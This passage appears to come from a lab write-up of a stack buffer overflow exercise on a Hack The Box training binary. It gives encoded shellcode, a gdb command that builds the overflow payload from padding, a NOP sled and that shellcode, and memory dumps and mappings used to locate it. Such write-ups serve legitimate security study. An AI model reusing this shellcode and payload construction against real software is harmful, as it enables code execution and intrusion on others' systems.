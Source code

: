 ```
\xbb\xcc\x54\x8d\xae\xda\xd2\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\x31\x5a\x12\x83\xc2\x04\x03\x96\x5a\x6f\x5b\x17\xb8\x98\x47\x04\x7d\x34\xe2\xa8\x08\x5b\x42\xca\xc7\x1c\x30\x4b\x68\x23\xfa\xeb\xc1\x25\xfd\x83\xdb\xdf\xf2\xea\xb4\xdd\x0c\x1d\x19\x6b\xed\xad\xc7\x3b\xbf\x9e\xb4\xbf\xb6\xc1\x76\x3f\x9a\x69\xe7\x6f\x68\x01\x9f\x40\xa1\xb3\x36\x16\x5e\x61\x9a\xa1\x40\x35\x17\x7f\x02
```
so now we have to use the following command in `gdb` to run exploit our shell code
```gdb
 run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xbb\xcc\x54\x8d\xae\xda\xd2\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\x31\x5a\x12\x83\xc2\x04\x03\x96\x5a\x6f\x5b\x17\xb8\x98\x47\x04\x7d\x34\xe2\xa8\x08\x5b\x42\xca\xc7\x1c\x30\x4b\x68\x23\xfa\xeb\xc1\x25\xfd\x83\xdb\xdf\xf2\xea\xb4\xdd\x0c\x1d\x19\x6b\xed\xad\xc7\x3b\xbf\x9e\xb4\xbf\xb6\xc1\x76\x3f\x9a\x69\xe7\x6f\x68\x01\x9f\x40\xa1\xb3\x36\x16\x5e\x61\x9a\xa1\x40\x35\x17\x7f\x02" + "\x66" * 4')
```
So when we run that command we can see the our break point will hint so now we can see our register value using the following command in `gdb`
```gdb
(gdb) x/2000xb $esp+550
```

There we can see our shell code 
```
xffffd672:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
#---> shell code start
0xffffd67a:     0x90    0xbb    0xcc    0x54    0x8d    0xae    0xda    0xd2  
0xffffd682:     0xd9    0x74    0x24    0xf4    0x5a    0x29    0xc9    0xb1  
0xffffd68a:     0x12    0x31    0x5a    0x12    0x83    0xc2    0x04    0x03  
0xffffd692:     0x96    0x5a    0x6f    0x5b    0x17    0xb8    0x98    0x47  
0xffffd69a:     0x04    0x7d    0x34    0xe2    0xa8    0x08    0x5b    0x42  
0xffffd6a2:     0xca    0xc7    0x1c    0x30    0x4b    0x68    0x23    0xfa  
0xffffd6aa:     0xeb    0xc1    0x25    0xfd    0x83    0xdb    0xdf    0xf2  
0xffffd6b2:     0xea    0xb4    0xdd    0x0c    0x1d    0x19    0x6b    0xed  
0xffffd6ba:     0xad    0xc7    0x3b    0xbf    0x9e    0xb4    0xbf    0xb6  
0xffffd6c2:     0xc1    0x76    0x3f    0x9a    0x69    0xe7    0x6f    0x68  
0xffffd6ca:     0x01    0x9f    0x40    0xa1    0xb3    0x36    0x16    0x5e  
0xffffd6d2:     0x61    0x9a    0xa1    0x40    0x35    0x17    0x7f    0x02
#--> shell code end
```
So that's mean we fire our shell code in memory so to solve the exercise we use the following command in `gdb`
```gdb
(gdb) info proc mappings
```
there output is have things like following
```
Mapped address spaces:  
  
       Start Addr   End Addr       Size     Offset objfile  
       0x56555000 0x56556000     0x1000        0x0 /home/htb-student/bow  
       0x56556000 0x56557000     0x1000        0x0 /home/htb-student/bow  
       0x56557000 0x56558000     0x1000     0x1000 /home/htb-student/bow  
       0xf7ded000 0xf7fbf000   0x1d2000        0x0 /lib32/libc-2.27.so  
       0xf7fbf000 0xf7fc0000     0x1000   0x1d2000 /lib32/libc-2.27.so  
       0xf7fc0000 0xf7fc2000     0x2000   0x1d2000 /lib32/libc-2.27.so  
       0xf7fc2000 0xf7fc3000     0x1000   0x1d4000 /lib32/libc-2.27.so  
       0xf7fc3000 0xf7fc6000     0x3000        0x0    
       0xf7fcf000 0xf7fd1000     0x2000        0x0    
       0xf7fd1000 0xf7fd4000     0x3000        0x0 [vvar]  
       0xf7fd4000 0xf7fd6000     0x2000        0x0 [vdso]  
       0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib32/ld-2.27.so  
       0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib32/ld-2.27.so  
       0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib32/ld-2.27.so
	   # ---> Check the stack value 
       0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```
